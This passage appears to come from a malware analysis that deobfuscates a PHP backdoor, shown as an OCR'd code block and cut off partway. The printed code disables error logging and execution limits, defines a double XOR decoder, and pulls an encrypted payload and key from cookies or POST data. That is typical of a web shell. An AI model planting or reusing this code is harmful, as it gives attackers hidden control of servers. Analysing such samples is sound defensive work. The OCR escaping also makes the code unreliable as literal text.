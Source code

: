  ---------------------------------------------------------------------------------------------------------------------------------------------------

Without spending too much time on this stage, lets go ahead and replace
array references to proper value where possible:

+-----------------------------------------------------------------------+
| \@ini\_set(\'error\_log\', NULL);\                                    |
| \@ini\_set(\'log\_errors\', 0);\                                      |
| \@ini\_set(\'max\_execution\_time\', 0);\                             |
| \@set\_time\_limit(0);\                                               |
| \                                                                     |
| global \$x864b367c;\                                                  |
| function r6971a(\$e76477, \$qead07){\                                 |
| global \$rb22c05fb;\                                                  |
| \$e112aa2d = \"\";\                                                   |
| for (\$n28c=0; \$n28c\<strlen(\$e76477);){\                           |
| for (\$o70350cf=0; \$o70350cf\<strlen(\$qead07) &&                    |
| \$n28c\<strlen(\$e76477);\$o70350cf++, \$n28c++){\                    |
|  \$e112aa2d .= chr(ord(\$e76477\[\$n28c\]) \^                         |
| ord(\$qead07\[\$o70350cf\]));\                                        |
|  }\                                                                   |
|  }\                                                                   |
|  return \$e112aa2d;\                                                  |
| }\                                                                    |
| \                                                                     |
| function b6ddf34f(\$e76477, \$qead07){\                               |
|  global \$rb22c05fb;\                                                 |
|  global \$x864b367c;\                                                 |
|  return r6971a(r6971a(\$e76477, \$x864b367c), \$qead07);\             |
| }\                                                                    |
| \                                                                     |
| foreach (\$\_COOKIE as \$qead07=\>\$l0c59b){\                         |
|  \$e76477 = \$l0c59b;\                                                |
|  \$k93f152 = \$qead07;\                                               |
| }\                                                                    |
| \                                                                     |
| if (!\$e76477){\                                                      |
|  foreach (\$\_POST as \$qead07=\>\$l0c59b){\                          |
|  \$e76477 = \$l0c59b;\                                                |
|  \$k93f152 = \$qead07;\                                               |